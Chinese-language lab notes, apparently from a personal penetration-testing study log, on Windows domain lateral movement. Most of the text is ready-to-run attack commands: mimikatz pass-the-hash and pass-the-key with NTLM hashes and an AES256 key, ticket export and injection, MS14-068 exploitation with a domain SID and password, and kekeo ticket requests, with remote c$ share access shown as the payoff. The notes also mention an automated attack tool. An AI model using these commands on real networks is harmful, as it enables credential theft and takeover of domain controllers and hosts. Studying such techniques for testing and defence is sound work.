




```powershell
PTH(pass the hash) #利用lm或ntlm的值进行的渗透测试

PTT(pass the ticket) #利用的票据凭证TGT进行的渗透测试

PTK(pass the key)     #利用的ekeys aes256进行渗透测试
#PTH在内网渗透中是一种很经典的攻击方式，原理就是攻击者可以直接通过LM Hash和NTL Hash访问远程主机或服务，而不用提供明文密码。
如果禁用了ntlm认证，PsExec无法利用获得的ntlm hash进行远程连接
但是使用mimikatz还是可以攻击成功。对于8.1/2012r2，安装补丁kb2871997的win7/2008r2/8/2012等，可以使用AEs keys代替NT hash来实现ptk攻击
总结:KB2871997补丁后的影响

pth:没打补丁用户都可以连接，打了补丁只能administrator连接ptk:打了补丁才能用户都可以连接，采用aes256连接
https://www.freebuf.com/column/220740.html

#PTT攻击的部分就不是简单的NTLM认证了，它是利用Kerberos协议进行攻击的，这里就介绍三种常见的攻击方法:MS14-068，Golden ticket,SILVER
ticket，简单来说就是将连接合法的票据注入到内存中实现连接。
MS14-068基于漏洞，Golden ticket(黄金票据)，SILVER ticket(白银票据)其中Golden ticket(黄金票据)，SILVER ticket(白银票据)属于权限维持技术MS14-068造成的危害是允许域内任何一个普通用户，将自己提升至域管权限。微软给出的补丁是kb3011780
```

## mimikatz-PTH传递

```php
sekurlsa::pth /user:administrator /domain:yu /ntlm:472CFC678748245CD6B295986B7FEA33  //由于没有指定ip,其实在实战中不会知道自己链接的ip是多少,需要自己去挨着试
sekurlsa::pth /user:administrator /domain:workgroup /ntlm:afffeba176210fad4628f0524bfe1942 //攻击的是本地用户
dir \\192.168.10.3\c$      //在没有链接ipc的情况下成功列出目录
```



mimikatz需要使用privilege::debug,所以还是需要管理员权限,这里用了之后直接弹了个administrator的shell出来


退出mimikatz之后可以访问目录,但是我这是管理员,本身也可以访问该目录呀,



这个是直接访问的目录,输出还是有点不一样的,应该是获得了凭证吧，想不明白,反正拿了个shell应该也差不多了

## mimikatz-PTK传递

```powershell
privilege::debug
sekurlsa::ekeys #获取aes
sekurlsa::pth /user:administrator /domain:yu /aes256:988d008c5b795719be5e23e900376dea5d5e645c302ca913561db323b331c838
```



一复制就成这样

```powershell
mimikatz "privilege::debug" "sekurlsa::ekeys" >1.txt
```

把输出写入到文件中



使用mimikatz成功拿到shell

## PTT传递-ms14068&kekeo&本地

### ms14068

第一种利用漏洞：
能实现普通用户直接获取域控system权限

```powershell
MS14-068 powershell执行
1.查看当前sid whoami/user
2.mimikatz # kerberos::purge
//清空当前机器中所有凭证，如果有域成员凭证会影响凭证伪造
mimikatz # kerberos::list //查看当前机器凭证
mimikatz # kerberos::ptc 票据文件 //将票据注入到内存中
3.利用ms14-068生成TGT数据
ms14-068.exe -u 域成员名@域名 -s sid -d 域控制器地址 -p 域成员密码
MS14-068.exe -u mary@god.org -s S-1-5-21-1218902331-2157346161-1782232778-1124 -d 192.168.3.21 -p admin!@#45 //若没有明文密码 可以使用--rc4:hash密文
4.票据注入内存
mimikatz.exe "kerberos::ptc TGT_mary@god.org.ccache" exit
5.查看凭证列表 klist
6.利用
dir \192.168.3.21\c$
```


看网上说的是为win2003或者xp无法伪造票据,换win7试,然后


导入票据


这里有一个注意点,这里的dc.yu.com必须使用域名,而不能使用ip,因为在通信中是用域名通信的

### kekeo

```powershell
第二种利用工具kekeo
1.生成票据
kekeo "tgt::ask /user:mary /domain:god.org /ntlm:518b98ad4178a53695dc997aa02d455c"
2.导入票据
kerberos::ptt TGT_mary@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi
3.查看凭证 klist
4.利用net use载入
dir \192.168.3.21\c$
```

### 本地导入

```powershell
第三种利用本地票据(需管理权限)
sekurlsa::tickets /export
kerberos::ptt xxxxxxxxxx.xxxx.kirbi
总结：ptt传递不需本地管理员权限，连接时主机名连接，基于漏洞,工具,本地票据
```

## 国产Ladon内网杀器测试验收

信息收集-协议扫描-漏洞探针-传递攻击等,就是一个自动化攻击的工具